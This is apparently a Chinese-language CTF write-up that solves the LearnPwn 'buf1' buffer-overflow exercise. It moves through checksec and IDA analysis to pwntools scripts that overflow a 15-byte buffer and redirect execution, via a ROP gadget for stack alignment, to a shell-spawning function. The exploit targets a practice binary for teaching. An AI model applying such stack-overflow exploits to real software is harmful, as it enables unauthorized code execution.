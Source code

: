 # 1.Buffer_Overflow-1.Basic_Jump

github上面的练习题

```cobol
git clone https://github.com/Adamkadaban/LearnPwn
```

然后开始做

先进行 readelf



<img src="https://i-blog.csdnimg.cn/blog_migrate/6535ce6c8ae047e509630a626fb72e0e.png" alt="" style="max-height:538px; box-sizing:content-box;" />


然后进行执行看看 是怎么回事

```cobol
./buf1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/08c593992f464145e02b6c3da6748e9f.png" alt="" style="max-height:88px; box-sizing:content-box;" />


发现就是一个输入和输出

我们checksec看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/7161d6431bf84c24003bb4f47c1c3cd5.png" alt="" style="max-height:215px; box-sizing:content-box;" />


发现stack 保护关闭 开启了NX保护

我们进入ida64看看反汇编

我习惯先看看字符串 SHITF+F12



<img src="https://i-blog.csdnimg.cn/blog_migrate/5540d48f0425e6856339ccf9b25d6e64.png" alt="" style="max-height:272px; box-sizing:content-box;" />


发现/bin/sh

我们先去主函数看看有什么漏洞

进入一个函数 getName



<img src="https://i-blog.csdnimg.cn/blog_migrate/079b4d1ec45e8365079e9d12394e5783.png" alt="" style="max-height:291px; box-sizing:content-box;" />


我们能看见 给了一个数组

然后下面又有一个fgets函数

fget()和get不同 不会无限输入

但是这里fgets 发现读取的大小为100 但是我们的s 只有15

这里我们就可以进行写入 因为他要读取 所以我们

可以把s和rbp填满垃圾字符 然后返回到shellcode地址

```cobol
fget（）
会读取指针所指的 并且大小限制的 
如果我们溢出字符串 将s和rbp覆盖了 后面就还有很大的空间 我们可以进行构造
因为返回的是100 所以我们构造的 他还是会直接返回 执行
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f3ed41b0eb22e7cfd1cd08b501ac0c32.png" alt="" style="max-height:238px; box-sizing:content-box;" />






类似这个 我们在覆盖了buf 和ret后 就可以进行构造了 因为他会读取100

shellcode地址我们很容易就发现



<img src="https://i-blog.csdnimg.cn/blog_migrate/9ab4394bd11f5153b0d5586c83baf62e.png" alt="" style="max-height:341px; box-sizing:content-box;" />


exp

```cobol
from pwn import *
p = process('./buf1')
payload=b'A'*(0xf+0x8)+p64(0x401224)+p64(0)+p64(0)+p64(0)+p64(0)+p64(0x4011BC)
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f548dffd0ada2e3e7ef2d20253897b67.png" alt="" style="max-height:145px; box-sizing:content-box;" />


## 问题 出现 code -11

他原本自带了 exp

但是我发现执行不了



<img src="https://i-blog.csdnimg.cn/blog_migrate/98641afb8964aef3a7787d224e905c5a.png" alt="" style="max-height:96px; box-sizing:content-box;" />


我们进行排查后发现是栈不对齐

我们gdb看看

<img src="https://i-blog.csdnimg.cn/blog_migrate/d074497a034891660d1908c473ff66ff.png" alt="" style="max-height:196px; box-sizing:content-box;" />




我们发现 这里他

```perl
mov eax,0
pop rbp
ret
 
push rbp
```

执行力三条才到 rbp 这里就导致我们报错

我们该如何解决呢

我们自己设置返回即可

```cobol
ROPgadget --binary ./buf1 --only 'pop|ret'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b11b669c0cf44429e8f0a4f711ebefde.png" alt="" style="max-height:96px; box-sizing:content-box;" />


使用这个寄存器 直接设置返回即可

```cobol
#!/bin/python3
 
from pwn import *
 
p = process('./buf1')
e = ELF('./buf1') # This imports all the symbols in the binary
 
# context.log_level = 'debug'
 
 
offset = 0x7fffffffdfe8 - 0x7fffffffdfd1 # $rbp - $(locationOfInput)
loc = p64(e.symbols['openShell']) # \xcf\x11
 
 
payload = b'A'*offset
payload +=p64(0x401224)+p64(0)+p64(0)+p64(0)+p64(0)
payload +=loc
 
 
p.sendline(payload) # We send 0x17 (or 23) bytes of data because that was how far away from the stack pointer our variable was
 
 
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/78d285aab53117d6adfa4e3f06bc4bf5.png" alt="" style="max-height:303px; box-sizing:content-box;" />